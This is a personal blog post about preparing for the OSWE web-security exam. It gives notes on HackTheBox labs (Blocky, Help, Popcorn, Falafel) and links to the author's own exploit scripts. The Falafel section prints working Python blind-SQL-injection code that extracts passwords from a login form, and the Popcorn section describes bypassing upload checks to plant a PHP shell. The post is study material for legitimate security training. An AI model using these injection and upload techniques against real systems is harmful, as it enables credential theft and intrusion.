 ```yaml
---
layout: post
title: OSWE preparation
date: 2023-12-23 10:14:00-0400
description: My OSWE examination preparation 
tags: preparation offsec oswe web
categories: cheetsheet
giscus_comments: true
related_posts: false
toc:
  sidebar: left
---
```


{% include figure.html path="assets/img/posts/oswe_preparation/oswe_introduction.jpg" title="oswe_preparation" class="img-fluid rounded z-depth-1" %}

### Introduction

{:data-toc-text="Introduction"}
Start of preparation for [OSWE](https://www.offsec.com/courses/web-300/) exam from OffSec :)\
Wanna blog my progress to preparations - share links, progress, minds about and e.t.c

---

### Сollecting material to study
{:data-toc-text="Material"}

For first, wanted to get information about exam format, people opinion who passed, found couple of pages:
* [Как я OSWE сдавал](https://habr.com/ru/companies/pm/articles/733170/)
* [Becoming a web security expert](https://habr.com/ru/companies/angarasecurity/articles/595071/)
* [An honest OSWE 2023 review](https://charchitverma100.medium.com/an-honest-oswe-2023-review-my-journey-preparation-and-exam-67d0adcbcde4)


After, i started to search technical material to prepare exam.\
There is [google table](https://docs.google.com/spreadsheets/d/1dwSMIAPIam0PuRBkCiDI88pU3yzrqqHkDtBngUHNCw8/edit#gid=665299979) with HackTheBox machines which can improve my skill for OSWE exam. IDK what these machines contain, i plan to solve and describe it later, when it be a christmas holidays. And take notes about all whitebox pentesting moments in these machines.

{% include figure.html path="assets/img/posts/oswe_preparation/htb_machines_table.png" title="oswe_preparation" class="img-fluid rounded z-depth-1" %}

There are machines i've decided to solve and write some descriptions:
* Blocky (Easy) 
* Help (Easy)
* Popcorn (Medium)
* Falafel (Hard)

Also, was found a nice [link](https://github.com/snoopysecurity/OSWE-Prep) that can be used too.

---
 
### HTB Machines
Next are reviews of hackthebox labs which have some OSWE-like challanges. I'm not going to describe every machine with full write up, I only notice key moments.


#### Blocky
Simply, dowload JD-GUI and explore couple of jar-files, located in [http://blocky.htb/plugins/](http://blocky.htb/plugins/).

JD-GUI is a standalone graphical utility that displays Java source codes of ".class" files. You can browse the reconstructed source code with the JD-GUI for instant access to methods and fields.

{% include figure.html path="assets/img/posts/oswe_preparation/blocky_jd_gui.png" title="oswe_preparation" class="img-fluid rounded z-depth-1" %}


#### Help
SQL injection in 1.0.2 of HelpDeskZ - free PHP based software which allows to manage site's support with a web-based support ticket system.

Exploit-db have a Python-version [exploit](https://www.exploit-db.com/exploits/41200) for that CVE, but i've decided to create my own, Golang version, only for practice.

Here is [link](https://github.com/MikeDakotaStayTrue/Script4You/blob/main/helpdeskz_sqli_exploit.go) to my GitHub. Some coding was interesting and useful, that was my first full script on Golang.

{% include figure.html path="assets/img/posts/oswe_preparation/help_sqli.png" title="oswe_preparation" class="img-fluid rounded z-depth-1" %}


#### Popcorn
Simple task to create PHP-shell for uploading, but bypassing some restrictions via injecting image magic bytes in shell. My choice was PNG.

{% include figure.html path="assets/img/posts/oswe_preparation/popcorn_png.png" title="oswe_preparation" class="img-fluid rounded z-depth-1" %}

Most cofortable for that task was Python, by my opinion, here is [link](https://github.com/MikeDakotaStayTrue/Script4You/blob/main/upload_php_png.py) to script.

#### Falafel
Here was Blind SQLi in the login form, where we could extract some passwords. I have wasted some time on script creation. The task was simple, but it was an annoying error that I couldn't understand while working with prepared requests in Python.

Next situation: for SQLi, I needed to send my body in POST request without URL-encoding, since that is the default behavior. But I found a way to bypass it by using prepared requests.

I have not found much practical information about using it, and finding errors myself is waiting for me.

Prepared statemets allow to change body after creating a request, but HTTP-header Content-length will not be updated. I didn't know it.


Final piece of code to send URL-decoded body:

```python
...
  sql_string = "admin'+and+ASCII(SUBSTRING(password,{},1))={}--+-".format(indx, chr_)
  data = {'username': sql_string, 'password':'pass'}

  req = requests.Request('POST', lab_url, data=data)
  
  prep = session.prepare_request(req)
  prep.body = urllib.parse.unquote(prep.body)
  prep.headers['Content-length'] = len(prep.body)

  resp = session.send(prep)
...
```

It's better to binary search instead of O(N), but im lazy. Here is proof of dupmping all tables:

{% include figure.html path="assets/img/posts/oswe_preparation/falafel_sqli_tables.png" title="oswe_preparation" class="img-fluid rounded z-depth-1" %}

UPD, added function for binary search О(logN) - maybe will use it as basement for future tasks:

```python
def binary_extract_passwords():
    password = ""

    for indx in range(1, 40):
        left = 47
        right = 123

        while left <= right:
            cursor = left + (right - left) // 2

            # Check cursor (middle)
            sql_string = "admin'+and+ASCII(SUBSTRING(password,{},1))={}--+-".format(indx, cursor)
            resp = send_request(sql_string)

            if "Wrong identification" in resp.text:
                password = password + chr(cursor)
                break

            # Сheck sides
            sql_string = "admin'+and+ASCII(SUBSTRING(password,{},1))>{}--+-".format(indx, cursor)
            resp = send_request(sql_string)

            if "Wrong identification" in resp.text:
                left = cursor + 1
            else:
                right = cursor - 1
    print(password)
```

And [link](https://github.com/MikeDakotaStayTrue/Script4You/blob/main/blind_sqli_extractor.py) to my script.

{% include figure.html path="assets/img/posts/oswe_preparation/falafel_sqli_pass.png" title="oswe_preparation" class="img-fluid rounded z-depth-1" %}

<br/><br/>

### Buying WEB-300
In middle of January 2024, my company bought me the course for my own account.
{% include figure.html path="assets/img/posts/oswe_preparation/web300.png" title="oswe_preparation" class="img-fluid rounded z-depth-1" %}

---